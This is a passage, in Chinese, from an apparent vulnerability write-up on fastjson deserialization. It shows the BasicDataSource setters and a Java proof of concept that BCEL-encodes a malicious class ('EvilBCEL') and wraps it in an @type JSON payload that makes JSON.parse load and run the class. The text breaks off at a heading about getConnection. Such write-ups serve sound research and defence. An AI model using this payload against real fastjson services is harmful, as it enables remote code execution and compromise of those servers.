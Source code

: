 setDriverClassLoader对应代码如下

```
public synchronized void setDriverClassLoader(ClassLoader driverClassLoader) {
    this.driverClassLoader = driverClassLoader;
}
```

setDriverClassName对应代码如下

```
public synchronized void setDriverClassName(String driverClassName) {
    if (driverClassName != null && driverClassName.trim().length() > 0) {
        this.driverClassName = driverClassName;
    } else {
        this.driverClassName = null;
    }
}
```

POC

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import service.EvilBCEL;

public class fastjsonBCEL {
    public static void main(String[] args) throws Exception{
        JavaClass cls = Repository.lookupClass(EvilBCEL.class);
        String code = Utility.encode(cls.getBytes(),true);
        String payload =
                "{\n"
                        + "    {\n"
                        + "        \"x\": {\n"
                        + "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n"
                        + "                \"driverClassLoader\": {\n"
                        + "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n"
                        + "                },\n"
                        + "                \"driverClassName\": \"$$BCEL$$"+code+"\"\n"
                        + "        }\n"
                        + "    }:\"x\"\n"
                        + "}";
        JSON.parse(payload);
    }
}
```

### fastjson如何调用`BasicDataSource`的`getConnection`方法
